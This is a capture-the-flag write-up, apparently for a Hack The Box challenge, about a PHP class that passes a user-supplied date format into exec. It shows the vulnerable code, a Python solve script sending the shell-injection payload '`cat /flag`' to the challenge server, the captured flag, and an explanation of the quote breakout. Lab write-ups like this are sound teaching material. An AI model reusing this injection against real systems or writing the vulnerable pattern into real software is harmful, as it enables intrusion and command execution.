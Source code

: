 ```yaml
---
created: 2024-07-16T22:50
updated: 2024-07-16T22:56
---
```


## Analysis

`TimeModel` is the most obvious attack surface, it runs user supplied format in `exec`.

```php [TimeModel.php]
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

## Solve Script

```python
import requests
import re
payload = "'`cat /flag`'"
r = requests.get("http://94.237.59.199:39808/?format="+payload)
print(re.search("HTB{.*}", r.text).group(0))
# HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3_33e95b9ffd98a08268d47ea25f327da1}
```

### Explanation

When we supply the following to format, we are able to embed a command execution that gives us the flag.

```
'`cat /flag`'
```

```php
$this->command = "date '+" . $format . "' 2>&1";
$this->command = "date '+'`cat /flag`'' 2>&1"; # will become
```

Not sure if existence of special characters might mess up the flag.

